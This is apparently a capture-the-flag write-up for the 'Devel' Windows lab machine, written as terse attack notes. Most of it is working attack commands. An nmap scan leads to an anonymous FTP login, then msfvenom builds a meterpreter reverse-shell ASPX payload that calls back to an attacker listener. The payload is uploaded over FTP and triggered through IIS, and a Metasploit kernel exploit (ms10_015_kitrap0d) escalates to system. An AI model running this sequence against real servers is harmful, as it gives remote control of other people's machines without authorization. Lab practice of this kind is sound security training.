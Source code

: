 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Devel
# 20/3/2023
10.10.10.5

----------------------------------------------------
# nmap
----------------------------------------------------
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
80/tcp open  http    Microsoft IIS httpd 7.5



└─$ ftp 10.10.10.5    
anonymous


----------------------------------------------------
# exploitation
----------------------------------------------------
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.3 LPORT=6969 -f aspx -o exploit.aspx -a x86
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.3 LPORT=4444 -f aspx > devel.aspx


anonymous
put exploit.aspx
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run -j
http://10.10.10.5/exploit.aspx
we got a shell

----------------------------------------------------
# exploitation
----------------------------------------------------
meterpreter > cd Windows\\Temp\\
use multi/recon/local_exploit_suggester
run
use exploit/windows/local/ms10_015_kitrap0d
run 
we got root